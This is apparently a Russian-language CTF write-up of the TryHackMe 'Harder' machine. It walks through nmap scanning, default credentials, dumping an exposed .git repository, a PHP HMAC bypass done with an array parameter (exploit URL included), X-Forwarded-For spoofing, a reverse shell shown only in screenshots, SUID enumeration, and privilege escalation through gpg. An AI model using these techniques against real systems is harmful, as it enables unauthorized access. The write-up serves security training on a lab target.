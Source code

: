 # Harder

:white_check_mark:  [**Git**](#git)

:white_check_mark: [**Hmac**](#hmac)

:white_check_mark: [**Hash**](#hash)

:white_check_mark: [**Gpg**](#gpg)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV harder.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   4096 cf:e2:d9:27:d2:d9:f3:f7:8e:5d:d2:f9:9d:a4:fb:66 (RSA)
|_  256 1e:45:7b:0a:b5:aa:87:e6:1b:b1:b7:9f:5d:8f:85:70 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Error
|_http-server-header: nginx/1.18.0                                                        
```

Перехватываем запрос с главной страницы **harder.thm** и видим название поддомена **pwd.harder.local**. Добавляем поддомен в **/etc/hosts**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/1.png)

Теперь у нас есть доступ к панели авторизации.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/2_1.png)

Проходим аутентефикацию со стандартными логином и паролем **admin:admin**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/2_2.png)

Проверяем директории **pwd.harder.local**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/2.png)

```
gobuster dir -u http://pwd.harder.local -w /usr/share/wordlists/dirb/common.txt
```

```
===============================================================
[+] Url:                     http://pwd.harder.local
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/02/28 19:50:02 Starting gobuster in directory enumeration mode
===============================================================
/.git/HEAD            (Status: 200) [Size: 23]
/index.php            (Status: 200) [Size: 19926]
```

<a name="git"></a>

Находим директорию **/.git/HEAD**/. Попробуем сдампить **git** с [git-dumper](https://github.com/arthaud/git-dumper).

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/3.png)

Используем команду **git checkout**. Git checkout используется для обновления заголовка с целью установки одной указанной ветви в качестве текущей ветви.
Получаем доступ к файлам:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/4.png)

<a name="hmac"></a>

Откроем файл **hmac.php**. 

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/5.png)

Скрипт сначала проверяет наличие **GET[‘h’]** или **GET[‘host’]**. Если один из них пуст - соединение обрывается. Затем скрипт включает файл secret.php, которого у нас нет в репозитории git. Далее, если **GET[‘n’]** не пуст, генерируется хеш-значение SHA256 с использованием метода HMAC, и ключ достается из файла secret.php, а новый хэш сохраняется в переменной $secret. Теперь, используя этот хэш в $secret в качестве ключа, генерируется хеш SHA256 параметра **GET[‘host’]** и сохраняется в переменной $hm. И, наконец, если $hm не равно **GET['h']**, соединение обрывается. Итак, теперь мы должны предсказать окончательный результат и передать его в **GET['h']**. Чтобы обойти это правило, передаем значение **GET[’n’]** как массив, который, дает значение $secret как ложное.

<a name="hash"></a>

Создаем хэш с нужными условиями: 

```
php -r "echo hash_hmac('sha256', "pwd.harder.local", false)"

hash = 5b622e20b29bdbcb0a4881f1d117d20a33a1f78a3c07ba85645567607e75cedf
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/6.png)

Url для эксплуатации уязвимости: 

```
http://pwd.harder.local/?n[]=&h=5b622e20b29bdbcb0a4881f1d117d20a33a1f78a3c07ba85645567607e75cedf&host=pwd.harder.local
```
![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/7.png)

Добавляем новый поддомен и заходим в аккаунт.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/8.png)

Получение доступа возможно только с ip 10.10.10.x . Перехватываем запрос и модифицируем путем добавления заголовка **X-Forwarded-For: 10.10.10.10**, который позволит обойти проверку ip. [Расширение](https://addons.mozilla.org/ru/firefox/addon/x-forwarded-for-injector/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search) в Firefox позволяет подставлять этот заголовок автоматически.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/9.png)

Получаем доступ к "консоли". 

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/10.png)

Кидаем обратную оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/11.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/12.png)

Находим файлы к которым имеет доступ пользователь www.
```
find / -type f -user www 2>/dev/null
```

Find находит интересный файл, выведем его в консоль.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/13.png)

Теперь мы имеем доступ к машине по ssh. Пробуем найти файлы сожержащие **SUID**.
```
find / -perm -u=s 2>/dev/null
```
<a name="gpg"></a>

Просмотрим содержимое скрипта. Нужен ключ gpg.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/14.png)

Ключ gpg находится в **/var/backups**. Импортируем ключ.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/15.png)

## Privilege escalation

Создадим файл с командой, зашифруем ключом gpg, используем скрипт.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/16.png)
